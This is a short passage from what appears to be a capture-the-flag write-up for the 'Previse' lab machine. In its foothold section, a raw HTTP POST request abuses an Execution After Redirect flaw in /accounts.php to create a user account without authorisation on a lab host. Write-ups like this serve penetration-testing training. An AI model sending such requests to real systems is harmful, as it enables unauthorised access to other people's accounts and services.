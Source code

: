 ![image-20240202153942279](./Previse.assets/image-20240202153942279.png)

## Foothold

### EAR for user creation

Usage of `/accounts.php`:

```console
POST /accounts.php HTTP/1.1
Host: 10.10.11.104
Content-Length: 54
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.104
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.104/accounts.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=e00qgq35n21f6guh261aj02cce
Connection: close

username=qwe123&password=1q2w3e&confirm=1q2w3e&submit=
```
